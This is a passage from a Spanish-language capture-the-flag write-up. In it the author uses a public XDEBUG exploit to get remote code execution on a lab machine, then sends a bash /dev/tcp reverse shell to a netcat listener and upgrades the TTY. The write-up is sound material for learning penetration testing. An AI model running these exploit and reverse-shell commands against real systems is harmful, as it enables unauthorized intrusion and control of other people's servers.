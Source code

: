Me descargo un exploit de [Github](https://github.com/D3Ext/XDEBUG-Exploit) y obtengo ejecución remota de comandos

```null
python3 xdebug.py -u http://10.10.10.83/ -l 10.10.16.11

██╗  ██╗██████╗ ███████╗██████╗ ██╗   ██╗ ██████╗ 
╚██╗██╔╝██╔══██╗██╔════╝██╔══██╗██║   ██║██╔════╝ 
 ╚███╔╝ ██║  ██║█████╗  ██████╔╝██║   ██║██║  ███╗   - By D3Ext
 ██╔██╗ ██║  ██║██╔══╝  ██╔══██╗██║   ██║██║   ██║
██╔╝ ██╗██████╔╝███████╗██████╔╝╚██████╔╝╚██████╔╝
╚═╝  ╚═╝╚═════╝ ╚══════╝╚═════╝  ╚═════╝  ╚═════╝ 

[+] XDEBUG exploit served on port 9000, waiting for connections
[+] Attempting to trigger the RCE

[+] Exploit triggered successfully
[+] Now you can execute php code, example: system("whoami");
[+] Type quit to exit the shell

[#] Enter php code >> system("ping -c 1 10.10.16.11");
b'round-trip min/avg/max/stddev = 129.311/129.311/129.311/0.000 ms'
```

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:23:38.781509 IP 10.10.10.83 > 10.10.16.11: ICMP echo request, id 58, seq 0, length 64
10:23:38.781528 IP 10.10.16.11 > 10.10.10.83: ICMP echo reply, id 58, seq 0, length 64
```

Me envío una reverse shell

```null
[#] Enter php code >> system("bash -c 'bash -i >& /dev/tcp/10.10.16.11/443 0>&1'");
```

Y la recibo en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.83] 42188
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f00ba96171c5:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
www-data@f00ba96171c5:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@f00ba96171c5:/var/www/html$ export TERM=xterm
www-data@f00ba96171c5:/var/www/html$ export SHELL=bash
www-data@f00ba96171c5:/var/www/html$ stty rows 55 columns 209
```
